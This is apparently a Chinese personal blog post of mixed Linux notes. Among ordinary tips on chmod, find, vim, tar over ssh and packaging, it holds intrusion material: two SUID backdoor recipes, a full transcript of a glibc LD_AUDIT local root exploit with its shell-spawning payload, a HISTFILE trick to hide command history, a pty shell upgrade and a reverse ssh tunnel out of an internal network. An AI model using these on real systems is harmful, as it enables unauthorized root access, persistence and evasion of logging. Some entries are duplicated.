 ```yaml
---
layout: post
title: "Linux基础汇总"
---
```


## Linux基础汇总


* suid/guid

	suid意味着如果A用户对属于他自己的shell脚本文件设置了这种权限，那么其他用户在执行这个脚本的时候就拥有了A用户的权限。所以，如果 root用户对某一脚本设置了这一权限的话则其他用户执行该脚本的时候则拥有了root用户权限。同理，guid意味着执行相应脚本的用户则拥有了该文件所属用户组中用户的权限。

	给文件加suid和sgid的命令如下：

	    chmod u+s filename 设置suid位
	    chmod u-s filename 去掉suid设置
	    chmod g+s filename 设置sgid位
	    chmod g-s filename 去掉sgid设置

* find / -type f -perm /u+s -ls

	-perm #按执行权限来查找  
	-type b/d/c/p/l/f #查是块设备、目录、字符设备、管道、符号链接、普通文件
	
* find ./ -name ‘*.java’ -exec grep -i “ABCD” {} \; -print 在当前路径不区分大小写查找所有*.java的文件里面含有”ABCD”的内容行，并且print出来文件的路径

* find /web/htdocs -type f -name "*.php" |xargs grep "eval(" > /tmp/test.txt

* Linux kernel 2.6 < 2.6.19 (32bit) ip_append_data() local ring0 root exploit

	[http://www.lengmo.net/post/1380]

* 本地后门2法 xi4oyu

	1.
	
	    cd /lib
	    chmod +s ld-linux.so.2
	    /lib/ld-linux.so.2 `which whoami`

	2.
	
	    chmod a+w /etc/fstab
	    echo 'test /mnt ext2 user,suid,exec,loop 0 0' >> /etc/fstab
	    chown root.root setuid
	    chmod u+s setuid
	    mount test
	    cd /mnt

* ssh的history处理 & 日至相关

	    export HISTFILE=/dev/null

	ssh日志默认保存在 /var/log/secure文件里
	
* python -c 'import pty; pty.spawn("/bin/sh")'

* python -c 'import pty; pty.spawn("/bin/sh")'

* 基础操作  
	增加一个用户

* 基础操作  
	增加一个用户  
	useradd application  
	passwd // 根据提示设置密码
	
* exp

	    $ mkdir /tmp/exploit
	    $ ln /bin/ping /tmp/exploit/target
	    $ exec 3< /tmp/exploit/target
	    $ ls -l /proc/$$/fd/3
	    $ rm -rf /tmp/exploit/
	    $ cat > payload.c
	    void __attribute__((constructor)) init()
	    {
	        setuid(0);
	        system("/bin/bash");
	    }
	    ^D
	    $ gcc -w -fPIC -shared -o /tmp/exploit payload.c
	    $ ls -l /tmp/exploit
	    $ LD_AUDIT="\$ORIGIN" exec /proc/self/fd/3
	    sh-4.1# whoami
	    root
	    sh-4.1# id
	    uid=0(root) gid=500(taviso)

* 自己建立ipkg feed服务器

	[http://www.oesf.org/index.php?title=Setting_Up_A_Feed ipkg-make-index.sh]
	
	[http://buffalo.nas-central.org/wiki/Construct_ipkg_packages_(for_developers)]
	
	gzip -9c Packages > Packages.gz


* 连接godaddy的ftp需要用passive模式。ftp之后，运行passive

* C库（glibc）  
	glibc是个C库，几乎所有的应用程序都需要共享它提供的功能（除了kernel、bootload、和其它完全不用C库的功能代码），因此glibc的存在有利益小系统或嵌入系统缩减系统总代码尺寸与存放空间（尽管单个的glibc库是比较大的）。所以，最后的工作就是：构造ARM交叉编译系统的glibc库。

* 安装语言包  
	sudo apt-get install language-support-zh  
	hello

* .vimrc编写指南  
	set nocp #该命令指定让 VIM 工作在不兼容模式下  
	set ru #该命令打开 VIM 的状态栏标尺。  
	set hls #搜索时高亮显示被找到的文本。  
	syntax on #打开关键字上色。  
	set backspace=indent,eol,start #字母删除问题  
	set whichwrap=b,s,<,>,[,] #光标跳转  

* linux下使用tar和ssh压缩传输文件

	    ssh username@remoteip "cd /some/path/; tar czf - path" | tar xvzf -#压缩传输
	    tar cvzf - /path/ | ssh username@remoteip "cd /some/path/; tar xvzf -" #压缩传输一个目录并解压

* ssh sock

	    ssh username@my_host_ip_address -D 7070
	    ssh -N -L 5555:202.202.202.1:22 admin@101.101.101.1
	    ssh -N -D 7070 user@localhost -p 555
	>内网运行：ssh -f -N -R 10000:localhost:22 username@反连的外网ip也就是说，在主控端10000端口和被控端的22端口上建立了一个通道。-R [listen-IP:]listen-port:host:portForward remote port to local address外网ip运行：ssh username@localhost -p 10000

* 未完待续






